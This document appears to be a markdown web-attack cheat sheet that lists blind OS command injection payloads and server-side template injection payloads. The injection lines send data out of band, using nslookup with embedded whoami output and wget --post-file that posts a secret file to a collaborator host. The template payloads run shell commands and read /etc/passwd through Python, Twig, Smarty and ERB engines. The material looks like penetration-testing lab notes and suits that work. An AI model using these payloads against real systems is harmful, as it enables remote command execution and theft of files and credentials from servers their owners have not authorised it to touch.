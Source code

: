 ```bash
# Blind OS command injection with OOB interaction
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||

# Blind OS command injection with OOB data exfiltration
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||

# Slightly advanced
https://website.com/image?image=/blog/posts/50.jpg&ImageSize="200||nslookup+$(cat+/home/carlos/secret).<collaborator>%26"  
https://website.com/image?ImgSize="`/usr/bin/wget%20--post-file%20/home/carlos/secret%20https://collaborator/`"
```

### Server-Side Template Injection (SSTI)

```python
# https://github.com/vladko312/SSTImap {% raw %}
{{2*2}}[[3*3]]
{{3*3}}
{{3*'3'}}
<%= 3 * 3 %>
${6*6}
${{3*3}}
@(6+5)
#{3*3}
#{ 3 * 3 }
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{''.__class__.__base__.__subclasses__()}} # Search for Popen process, use payload below change 227 to index of Popen
{{''.__class__.__base__.__subclasses__()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}
{{'a'.toUpperCase()}} 
{{ request }}
{{self}}
<%= File.open('/etc/passwd').read %>
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{$smarty.version}
{php}echo `id`;{/php}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}} {% endraw %}
```
